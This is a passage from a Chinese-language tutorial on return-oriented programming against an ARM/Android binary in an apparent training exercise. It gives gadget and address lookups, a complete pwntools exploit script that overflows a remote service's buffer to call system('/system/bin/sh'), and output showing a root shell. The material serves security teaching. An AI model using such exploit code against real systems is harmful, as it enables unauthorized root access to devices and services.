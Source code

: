 在这些gadgets中，我们成功找到了一个gadget可以符合我们的要求：

```
#!bash
0x0000894a : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc} 
```

接下来就是找system和 `"/system/bin/sh"` 的地址，分别为0x00008404和000096C0：

![](http://img0.tuicool.com/ra2aqi.png!web)

![](http://img1.tuicool.com/JFZ7bmi.png!web)

要注意的是，因为 `system()` 函数在plt区域，并没有被编译成thumb指令，而是普通的arm指令，因此并不需要将地址+1。最终level7.py如下：

```
#!python
#!/usr/bin/env python
from pwn import *

#p = process('./level7')
p = remote('30.10.20.253',10001)

p.recvuntil('\n')

#0x0000894a : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
gadget1 = 0x0000894a + 1

#"/system/bin/sh"
r0 = 0x000096C0

#.plt:00008404 ; int system(const char *command)
systemaddr = 0x00008404 

payload =  '\x00'*132 + p32(gadget1) + "\x00"*0xc + p32(r0) + "\x00"*0x4 + p32(systemaddr)

p.send(payload)

p.interactive() 
```

执行结果如下：

```
#!bash
$ python level7.py 
[+] Opening connection to 30.10.20.253 on port 10001: Done

[*] Switching to interactive mode
$ /system/bin/id
uid=0(root) gid=0(root) context=u:r:shell:s0 
```

## 0x03 Android上的ASLR
